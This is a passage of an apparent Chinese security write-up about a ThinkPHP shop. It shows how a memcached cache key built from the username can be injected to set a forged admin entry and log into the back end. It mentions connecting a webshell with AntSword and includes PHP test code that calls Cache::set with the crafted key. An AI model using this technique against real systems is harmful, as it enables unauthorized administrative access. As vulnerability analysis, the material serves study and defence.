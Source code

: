 [![](assets/1708920194-3122144727c4ff6d6227c94c58624c85.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215111633-9f10e8fa-cbb0-1.png)

因为这里配置了 cache，所以数据会先缓存到 memecached 中，这里我们跟进一个 find 方法。因为$username 不为空，所以这里直接看!$data==null 的 if 语句里面：

[![](assets/1708920194-aca92f977b73dcf38a6480eaf74b0e20.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215111654-ab9b4228-cbb0-1.png)

这里我们可以看到这里 key 的存储形式为：

```plain
$key = 'think:' . $this->connection->getConfig('database') . '.' . (is_array($options['table']) ? key($options['table']) : $options['table']) . '|' . $data;
```

`think:shop.admin|username`

然后调用 Cache:get 将 key 进行查询，所以这个地方我们就可以对 key 进行注入，执行 set 命令，在缓存中设置一个 admin 的值然后来进行后台登录：

我们看一下我们要注入一个什么样的数据，写个 shell 连上蚁剑：

```plain
<?php
namespace app\index\controller;

use think\Controller;
use app\index\model\Goods;
use think\Cache;
use think\Db;

class Index extends Controller
{
    public function test(){
        $result = Db::query("select * from goods where id=1");
        var_dump($result);
        $a = "think:shop.admin|admin";
        Cache::set($a, $result, 3600);
    }
    public function index()
    {
```